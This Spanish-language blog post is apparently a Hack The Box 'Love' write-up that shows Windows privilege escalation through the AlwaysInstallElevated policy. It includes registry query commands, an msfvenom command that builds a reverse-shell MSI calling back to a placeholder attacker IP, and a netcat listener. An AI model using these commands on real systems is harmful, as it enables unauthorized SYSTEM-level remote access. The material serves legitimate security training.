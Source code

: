 ```yaml
---
title: "Love HTB Escalando Privilegio"
layout: post
---
```

![Love HTB](/assets/images/love.png)

<h2>Presentación</h2>
En esta ocasión estaré presentando otra escalada de privilegio en windows y es abusando de: AlwaysInstallElevated, me había tomado tiempo la preparación de algunos writeUp, ya que estuve preparandome para el eJPT el cual logramos obtener, tesis, mudanza y otras movidas como seguir con networking y firewall desde EVE-NG, pronto..  🤯.

<h2>WinPEAS</h2>
En la fase de búsqueda de privilegias, WinPeas nos presenta el siguiente setting:

![Love HTB Escalando Privilegio ](/assets/images/love-1.png)

Este key registry significa que cualquier usuario puede instalar un archivo .msi con privilegios de NT Authority\System.

<h2>Enumeración Manual</h2>

Puedes hacer la solicitud al registro de manera manual con los siguientes comandos:

{% highlight bash %}
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
{% endhighlight %}

el regultado de ambos query debe devolver el valor 1, es decir (value is 0x1), de lo contrario sera imposible explotar dicha vulnerabilidad. 

<h2> ¿Qué hago ahora? </h2>
 
 Podemos generar un archivo malicoiso .msi con msfvenom.
 
 ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
 ```
 
 ![Love HTB Escalando Privilegio ](/assets/images/love-2.png)

Podemos ponernos en escucha por el puerto especificado en el payload, o hacer uso del exploit/multi/handler.

```rlwrap nc -nlvp 443
 ```
Transferimos el archivo setup.msi a la máquina víctima, en esta ocasión haciendo uso de certutil.exe, como podemos ver a continuación. 

 ![Love HTB Escalando Privilegio ](/assets/images/love-3.png)
 
En nuestro caso lo depositamos en la siguiente ruta.
{% highlight bash %}
C:\Windows\Temp\priv\setup.msi
{% endhighlight %}

<h2>PoC</h2>

Ejecutamos el siguiente comando a la vez que nos mantenemos en escucha en nuestra máquina.

![Love HTB Escalando Privilegio ](/assets/images/love-4.png)

al instante recibimos nuestra conexión. 
![Love HTB Escalando Privilegio ](/assets/images/love-5.png)

🖱️_by:_ *@DaVinciRoot*
